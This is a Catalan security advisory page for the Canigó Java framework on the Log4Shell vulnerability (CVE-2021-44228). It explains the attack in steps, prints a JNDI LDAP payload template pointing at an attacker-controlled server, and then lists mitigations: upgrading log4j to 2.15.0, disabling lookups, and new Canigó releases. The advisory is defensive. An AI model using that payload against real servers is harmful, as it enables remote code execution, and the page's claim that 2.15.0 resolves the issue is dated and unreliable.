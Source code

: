 +++
date        = "2021-12-13"
title       = "Canigó. Vulnerabilitat CVE-2021-44228 (Log4Shell)"
description = "Com resoldre la vulnerabilitat detectada CVE-2021-44228 (Log4Shell)"
#section     = "howtos"
#categories  = ["canigo"]
#key         = "GENER2022"
+++

La vulnerabilitat [CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228) permet executar codi en un
servidor remot, injectant una petició JNDI `${jndi:(ldap|rmi|etc)}` dins de qualsevol variable que es registri al log del servidor.

Per a explotar la vulnerabilitat, es poden seguir els següents passos:

1. En el servidor que allotja l'aplicació vulnerable, es registra la informació que conté la càrrega útil maliciosa.
Per exemple: `${jndi:ldap://[servidor]/[càrrega útil]}`, on el servidor està controlat per l'atacant i la càrrega útil conté les comandes a executar.

2. La vulnerabilitat s'activa i el servidor vulnerable, sol·licita al servidor de l'atacant a través de JNDI el codi maliciós.

3. La resposta del servidor de l'atacant conté la ruta a una classe Java maliciosa. Per exemple: `http://[servidor]/exploit.class`,
que s'injecta en el context de l'aplicació vulnerable.

4. La càrrega útil injectada permet a l'atacant executar codi arbitrari.

<br/>
Informació de referència:

* <https://github.com/YfryTchsGD/Log4jAttackSurface> \
* <https://github.com/christophetd/log4shell-vulnerable-app> \
* <https://www.tarlogic.com/blog/log4shell-vulnerability-cve-2021-44228/> \
* <https://securelist.com/cve-2021-44228-vulnerability-in-apache-log4j-library/105210/> \
* <https://www.randori.com/blog/cve-2021-44228/>

## Com solucionar la vulnerabilitat a les aplicacions

* **Opció 1**) Substituir la versió de la dependència de la libreria `log4j` en temps de compilació.

    - 1.1) Modificar el fitxer `pom.xml` - **opció recomanada** -, tornar a compilar i desplegar l'aplicació:
```xml
<properties>
<log4j2.version>2.15.0</log4j2.version>
</properties>
```

    - 1.2) Injectar la variable durant la construcció de l'aplicació, tornar a compilar i desplegar l'aplicació:
```sh
mvn -Dlog4j2.version=2.15.0 clean package && java -jar ./target/CanigoLog4jShellTest.war
```

* **Opció 2**) Configurar la variable `log4j2.formatMsgNoLookups` en temps d'execució.

    - 2.1) Injectar la variable (vàlid per a: 2.10 >= log4j <= 2.14.1) i tornar a desplegar l'aplicació:
```sh
mvn clean package && java -Dlog4j2.formatMsgNoLookups=true -jar ./target/CanigoLog4jShellTest.war
```

    - 2.2) Afegir una variable d'entorn (vàlid per a: 2.10 >= log4j <= 2.14.1) i tornar a desplegar l'aplicació. Veure: https://msrc-blog.microsoft.com/2021/12/11/microsofts-response-to-cve-2021-44228-apache-log4j2/.
```sh
mvn clean package docker:build \
&& docker run -it --rm \
--net=host \
--name="log4jshell-local" \
--memory="1024m" --memory-reservation="1024m" --memory-swap="1024m" --cpu-shares=2000 \
--env LOG4J_FORMAT_MSG_NO_LOOKUPS=true \
canigo/app
```

* **Opció 3**) Modificar el patró de traces configurades al fitxer `log4j.xml` (vàlid per a: 2.7 >= log4j <= 2.14.1) i tornar a compilar i desplegar l'aplicació. Veure: https://kb.vmware.com/s/article/87093. 
```sh
## canviar:
<PatternLayout pattern="canigo Message: %d{dd MM yyyy HH:mm:ss,SSS} %-5p [%t] %-5p [%t] %c - %m%n" />
## per:
<PatternLayout pattern="canigo Message: %d{dd MM yyyy HH:mm:ss,SSS} %-5p [%t] %-5p [%t] %c - %m{nolookups}%n" />
```

## Noves versions de Canigó 3.4 i 3.6

S'han alliberat noves versions del Framework Canigó:

* Versions de Canigó 3.4.7 i 3.6.1 per a resoldre aquesta vulnerabilitat als mòduls de Canigó.
Podeu consultar: [Publicació nova versió 3.4.7 i 3.6.1](/noticies/2021-12-13-CAN-actualitzacio-canigo-3_4_7_3_6_1).

* Versió 1.6.8 de l'archetype de Canigó per a generar projectes amb Canigó 3.4.7.
Podeu consultar: [Actualització archetype 1.6.8](/noticies/2021-12-13-CAN-Actualitzacio_archetype_1_6_8/).

* Versió 1.7.1 de l'archetype de Canigó i la versió 1.8.1 del plugin del eclipse per a generar projectes amb Canigó 3.6.1.
Podeu consultar: [Actualització archetype 1.7.1 i plugin Eclipse 1.8.1](/noticies/2021-12-13-CAN-Actualitzacio_archetype_1_7_1_plugin_eclipse_1_8_1/).

Des de CS Canigó es recomana actualitzar a aquestes noves versions. Per a fer-ho, serà necessari revisar les dependències de l'aplicació
per a utilitzar els mòduls de les versions 3.4.7 i 3.6.1. Podeu consultar les matrius de compatibilitat de les versions:

- [Matrius de Compatibilitats 3.4](/canigo-download-related/matrius-compatibilitats/canigo-34/)

- [Matrius de Compatibilitats 3.6](/canigo-download-related/matrius-compatibilitats/canigo-36/)

Un cop es comprovi que s'utilitzen les últimes versions dels mòduls, caldrà modificar el fitxer `pom.xml` per a assegurar l'ús
de la versió 2.15.0 de log4j:

```xml
<properties>
<log4j2.version>2.15.0</log4j2.version>
</properties>
```

Un cop realitzades les adaptacions descrites, comprovar que només s'utilitza la versió 2.15.0 del log4j a l'aplicació mitjançant:

```
mvn dependency:tree
```

<br/><br/>
Per qualsevol dubte relatiu a aquesta nova versió del Framework Canigó us podeu posar en contacte amb el CS Canigó al servei CAN del JIRA CSTD o enviant-nos un correu electrònic a la bústia del CS Canigó.